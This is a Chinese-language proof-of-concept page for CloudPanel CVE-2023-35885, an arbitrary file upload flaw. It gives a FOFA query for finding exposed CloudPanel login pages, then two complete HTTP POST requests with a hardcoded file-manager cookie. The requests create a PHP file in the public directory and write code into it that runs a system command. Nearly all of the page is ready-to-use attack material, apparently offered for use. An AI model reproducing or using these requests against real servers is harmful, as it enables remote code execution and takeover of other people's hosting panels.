 ## CloudPanel RCE漏洞 CVE-2023-35885
CloudPanel 是一个基于 Web 的控制面板或管理界面，旨在简化云托管环境的管理。它提供了一个集中式平台，用于管理云基础架构的各个方面，包括虚拟机 （VM）、存储、网络和应用程序。CloudPanel存在任意文件上传漏洞，攻击者可以通过接口创建PHP文件来获取服务器权限。

## fofa
```
title=="CloudPanel | Log In"
```
![image](https://github.com/user-attachments/assets/f0ec02c5-d2e3-436c-a47d-bb5e200d4f81)

`/file-manager/backend/makefile`接口创建文件
```
POST /file-manager/backend/makefile HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (compatible; MSIE 5.0; Windows NT 5.1; Trident/3.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: clp-fm=ZGVmNTAyMDA5NjM3ZTZiYTlmNzQ3MDU1YTNhZGVlM2IxODczMTBjYjYwOTFiNDRmNmZjYTFjZjRiNmFhMTEwOTRiMmNiNTA5Zjc2YjY1ZGRkOWIwMGZmNjE2YWUzOTFiOTM5MDg0Y2U5YzBlMmM5ZTJlNGI3ZTM3NzQ1OTk2MjAxNTliOWUxYjE1ZWVlODYxNGVmOWVkZDVjMjFmYWZkYjczZDFhNGZhOGMyMmQyMmViMGM2YTkwYTE4ZDEzOTdkMmI4YWMwZmI0YWYyNTRmMjUzOTJlNzNiMGM4OWJmZTU0ZDA1NTIwYTJmMjI0MmM2NmQyOWJjNzJlZGExODA0NzBkZmU3YTRkYTM=
Content-Length: 43
Content-Type: application/x-www-form-urlencoded

id=/htdocs/app/files/public/&name=confg.php
```
`/file-manager/backend/text`接口写入文件内容
```

POST /file-manager/backend/text HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (compatible; MSIE 5.0; Windows NT 5.1; Trident/3.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: clp-fm=ZGVmNTAyMDA5NjM3ZTZiYTlmNzQ3MDU1YTNhZGVlM2IxODczMTBjYjYwOTFiNDRmNmZjYTFjZjRiNmFhMTEwOTRiMmNiNTA5Zjc2YjY1ZGRkOWIwMGZmNjE2YWUzOTFiOTM5MDg0Y2U5YzBlMmM5ZTJlNGI3ZTM3NzQ1OTk2MjAxNTliOWUxYjE1ZWVlODYxNGVmOWVkZDVjMjFmYWZkYjczZDFhNGZhOGMyMmQyMmViMGM2YTkwYTE4ZDEzOTdkMmI4YWMwZmI0YWYyNTRmMjUzOTJlNzNiMGM4OWJmZTU0ZDA1NTIwYTJmMjI0MmM2NmQyOWJjNzJlZGExODA0NzBkZmU3YTRkYTM=
Content-Length: 93
Content-Type: application/x-www-form-urlencoded

id=/htdocs/app/files/public/confg.php&content=<?php system('id');phpinfo();unlink(__FILE__)?>
```
文件路径：url\public\confg.php
